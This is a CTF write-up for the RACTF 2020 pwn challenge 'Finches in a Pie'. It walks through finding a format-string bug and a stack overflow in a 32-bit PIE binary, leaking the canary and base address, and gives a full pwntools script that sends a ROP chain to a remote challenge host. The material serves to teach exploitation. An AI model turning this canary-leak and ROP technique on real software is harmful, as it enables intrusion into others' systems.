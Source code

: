 ```yaml
---
title: "RACTF 2020: Finches in a Pie (Pwn)"
layout: post
date: 2020-06-11
tags:
- CTF
- writeup
- RACTF
- 2020
- Pwn
comments: true
---
```


> There's a service at xxx, exploit it to get the flag.
>
> Challenge instance ready at `88.198.219.20:27813`.
>
> [fiap](/files/fiap)

Let's start off by running checksec on the binary.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ checksec fiap
[*] '/vagrant/challenges/ractf/Finches in a Pie/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay, a X86 ELF file with a canary, NX, PIE and partial RELRO. Let's run it to get a better idea of what we're dealing with.


```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
123
Thank you, 123!
Would you like some cake?
123

```

The program asks for our name, __repeats it back__ to us, and asks if we'd like some cake. Since our name is repeated back to us, there's a chance that there might be a format string vulnerability. So let's test for that.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
%p
Thank you, 0xf7feada0!
Would you like some cake?
%p
```

Ah looks like we're right! Since we have a format string vulnerability that we can exploit, we've effectively gotten ourselves a read primitive and write primitive. So the canary and PIE should not pose an issue anymore since there's a good chance that we can leak the canary value, and an address within the program. While we're at it, let's test if they're performing proper bounds checking for the size of our input.

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ ./fiap
Oh my!

You NAUGHTY CANARY

You ATE MY PIE!

CATCH HIM!

You got him! Thank you!
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Would you like some cake?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

Omegalul. Looks likes the second input might be vulnerable to a buffer overflow. Okay we've actually got a lot to work with. Before we write our exploit, let's find the offsets of what we need to leak. So let's open up gdb.

```
───────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x565562ee <say_hi+108>    push   eax
   0x565562ef <say_hi+109>    call   printf@plt <0x56556030>

   0x565562f4 <say_hi+114>    add    esp, 0x10
   0x565562f7 <say_hi+117>    lea    eax, [ebp - 0x20]
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 565562ee say_hi+108
   f 1 565563d9 main+113
   f 2 f7df5e81 __libc_start_main+241
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> stack 15

00:0000│ esp  0xffffcd44 —▸ 0xf7feada0 ◂— pop    edx
01:0004│      0xffffcd48 —▸ 0xf7e4436b (puts+11) ◂— add    edi, 0x16dc95
02:0008│      0xffffcd4c —▸ 0x5655628f (say_hi+13) ◂— add    ebx, 0x2d71
03:000c│      0xffffcd50 —▸ 0xf7fb2000 ◂— 0x1d4d6c
04:0010│      0xffffcd54 ◂— 0x0
05:0014│      0xffffcd58 ◂— '%p.%p.'
06:0018│      0xffffcd5c ◂— 0x56002e70 /* 'p.' */
07:001c│      0xffffcd60 —▸ 0x56557036 ◂— 'You ATE MY PIE!\n'
08:0020│      0xffffcd64 —▸ 0xf7e9bf86 (setresgid+6) ◂— add    eax, 0x11607a
09:0024│      0xffffcd68 —▸ 0x56559000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ef4
0a:0028│      0xffffcd6c ◂— 0xa7b41c00
0b:002c│      0xffffcd70 —▸ 0x56559000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ef4
0c:0030│      0xffffcd74 ◂— 0x0
0d:0034│ ebp  0xffffcd78 —▸ 0xffffcd98 ◂— 0x0
0e:0038│      0xffffcd7c —▸ 0x565563d9 (main+113) ◂— mov    eax, 0

pwndbg> canary
AT_RANDOM = 0xffffcfeb # points to (not masked) global canary value
Canary    = 0xa7b41c00
Found valid canaries on the stacks:
00:0000│   0xffffcd6c ◂— 0xa7b41c00
```

Looks like we found the canary, and we've also got the address of `main+113` to work with. Nice!

```
vagrant@ctf:/vagrant/challenges/ractf/Finches in a Pie$ nm fiap | grep flag
00001209 T flag
```

Additionally, we also found a helper function that prints the flag for us. How convenient!

Ok so here's the game plan:

1. First input
  - Leak canary and address of `main+113`

2. Second input
  - Send payload: `<"A" * offset to canary><canary><"A" * additional offset to EIP><ret slide><flag>`

Now let's write a script to exploit this.

```python
#! /usr/bin/python3

from pwn import *

HOST = '88.198.219.20'
PORT = 52692
BINARY = './fiap'

elf = context.binary = ELF(BINARY)

elf.symbols['ret'] = elf.symbols['main'] + 127

CANARY_OFFSET = 25
PAYLOAD_OFFSET = CANARY_OFFSET + 16
FMT_PAYLOAD = '%11$p.%15$p'

splash()

r = remote(HOST, PORT)

with log.progress('Stage 1: Leak canary and (main + 113)'):
    r.recvuntil('What\'s your name?\n')
    r.sendline(FMT_PAYLOAD)
    r.recvuntil('Thank you, ')

    leaked = r.recvline().decode().strip()[:-1]
    canary, main_113 = [int(x, 16) for x in leaked.split('.')]

    log.success(f'Leaked canary: 0x{canary:08x}')
    log.success(f'Leaked (main + 113): 0x{main_113:08x}')

with log.progress('Stage 2: Generate ROP Chain'):
    elf.address = main_113 - (elf.symbols['main'] + 113)
    log.success(f'Calculated ELF base address: 0x{elf.address:08x}')

    rop = ROP(elf)
    rop.raw(p32(elf.symbols['ret']))
    rop.flag()

    log.success('Generated ROP Chain:')
    log.success(rop.dump())

with log.progress('Stage 3: Pwn'):
    r.recvuntil('Would you like some cake?\n')
    r.sendline(flat({ CANARY_OFFSET: p32(canary), PAYLOAD_OFFSET: rop.chain() }))

    log.success(f'Flag: {r.recvline().strip().decode()}')

r.close()
```

Let's see it in action!

<script id="asciicast-338088" src="https://asciinema.org/a/338088.js" async></script>

Flag: `ractf{B4k1ng_4_p1E!}`
